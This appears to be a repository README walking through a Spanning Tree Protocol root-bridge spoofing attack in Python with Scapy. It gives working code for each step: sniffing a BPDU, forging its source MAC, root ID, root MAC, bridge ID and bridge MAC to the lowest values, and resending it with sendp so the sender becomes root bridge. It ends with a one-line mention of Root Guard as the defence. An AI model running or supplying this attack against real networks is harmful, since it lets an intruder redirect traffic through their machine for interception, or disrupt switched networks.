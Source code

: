 -> STP-Root Bridge Attack :

  - Capture STP packet phase :
  .1. Capture STP packet using scapy.all.sniff(filter="CaptureFilter",count="Packet.No", store=False | True, prn="Function") .

   .1.1 Capturing idea is for get the STP-Packet information (Bridge-Port, Port-Cost, Port-ID, Fake BPDU) .

   - sniffed_pkt = scapy.all.sniff(filter="ether dst 01:80:c2:00:00:00",count=1)


  - Change Packet Information :
  .2. sniffed_pkt[0].src = "00:00:00:00:00:01" : Change source MAC address of the frame "Which is my mac address" to this MAC address, to set it as the lowest mac address in the network to be able to set my device as the Root-Bridge of the network .

  .3. sniffed_pkt[0].rootid = 0 : Set Root-ID to zero, Root-ID is the BPDU (Bridge-ID(BPDU Number).MAC Address of the Root-Bridge), which mean this root id will be the lowest and the Root-Bridge will be changed to be for the device with this Root-ID .

  .4. sniffed_pkt[0].rootmac = "00:00:00:00:00:01" : Set Root-MAC to "00:00:00:00:00:01" which is the default for the system-id (MAC address) for the root-bridge in the STP and RSTP , Change the MAC of the Root-Bridge to be the lowest also .

  .5. sniffed_pkt[0].bridgeid = 0 : Set Bridge-ID to zero, which mean the Bridge-ID And Root-ID when equal each other this is the Root-Bridge information .

  .6. sniffed_pkt[0].bridgemac = "00:00:00:00:00:01" : Set Root-MAC = Bridge-MAC, which mean this is the Root-Bridge node .

  .7. sniffed_pkt[0].show() : Show frame content .

  - Start Attack :
   - Send changed frame back into the network using scapy.all.sendp(packet, loop=0, verbose=True | False)

   .1. sendp(sniffed_pkt[0], loop=0, verbose=True) .


  - Security solution for this attack is (Root-Guard) in any port i don't trust .
   .1. Set guard to Root-Bridge .
   .2. This Root-Guard will block the forged-BPDU's .

  - Idea of this attack is capture a frame contain the original information for the Root-Bridge then forged it in the packet then resend it to the network to Spoof the Root-Bridge information and position .


